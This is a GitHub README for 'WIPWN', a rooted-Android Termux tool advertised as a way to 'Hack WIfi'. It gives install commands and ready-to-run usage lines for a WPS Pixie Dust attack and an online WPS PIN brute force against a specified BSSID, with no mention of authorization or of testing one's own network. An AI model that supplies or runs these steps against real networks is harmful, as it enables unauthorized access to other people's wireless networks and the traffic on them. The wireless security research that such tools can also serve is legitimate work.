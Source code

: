 <h1 align="center">WIPWN</h1>
<h4 align="center">Hack WIfi Using Termux! (Requires Root)</h4>

#### Start

<p align="center"><img src="https://raw.githubusercontent.com/ITSN0B1T4/itsn0b1t4.github.io/main/wepwn/.assets/demo2.png"></p>

#### Cracked

<p align="center"><img src="https://raw.githubusercontent.com/ITSN0B1T4/itsn0b1t4.github.io/main/wepwn/.assets/demo3.png"></p>

#### Autostart if failed 

<p align="center"><img src="https://raw.githubusercontent.com/ITSN0B1T4/itsn0b1t4.github.io/main/wepwn/.assets/demo4.png"></p>

### Installation :

```bash
pkg update && pkg upgrade -y
pkg install root-repo -y
pkg install git tsu python termux-api wpa-supplicant pixiewps iw -y
git clone https://github.com/ITSN0B1T4/wipwn
cd wipwn
chmod +x wipwn.py
```
#### Help : `sudo python wipwn.py --help`
#### Example : `sudo python wipwn.py -i wlan0 -K`

#### Note: 
+ **First turn off your Wifi.**
+ **Turn on Hotspot.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python wipwn.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python wipwn.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python wipwn.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**

### License

````
MIT License

Copyright (c) 2022 Toxinum.

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.
````

+ **IF FAILED TURN OFF LOCATION IF TURNED ON.**

Repo : <a href="https://github.com/ITSN0B1T4/wepwn"> Here </a>


<div align="center">
<h3>━━━━ Connect with me ━━━━</h3>
<a href="https://fb.com/TOXINUM" target="blank"><img align="center" src="https://raw.githubusercontent.com/rahuldkjain/github-profile-readme-generator/master/src/images/icons/Social/facebook.svg" alt="TOXIC-VIRUS" height="30" width="40" /></a>
<a href="https://twitter.com/itzakx21" target="blank"><img align="center" src="https://raw.githubusercontent.com/rahuldkjain/github-profile-readme-generator/master/src/images/icons/Social/twitter.svg" alt="itzakx21" height="30" width="40" /></a>
<a href="https://fb.com/ITSN0B1T4" target="blank"><img align="center" src="https://raw.githubusercontent.com/rahuldkjain/github-profile-readme-generator/master/src/images/icons/Social/facebook.svg" alt="Mohammad Alamin" height="30" width="40" /></a>
<a href="https://instagram.com/ITSN0B1T4" target="blank"><img align="center" src="https://raw.githubusercontent.com/rahuldkjain/github-profile-readme-generator/master/src/images/icons/Social/instagram.svg" alt="akxvau" height="30" width="40" /></a>
</div>
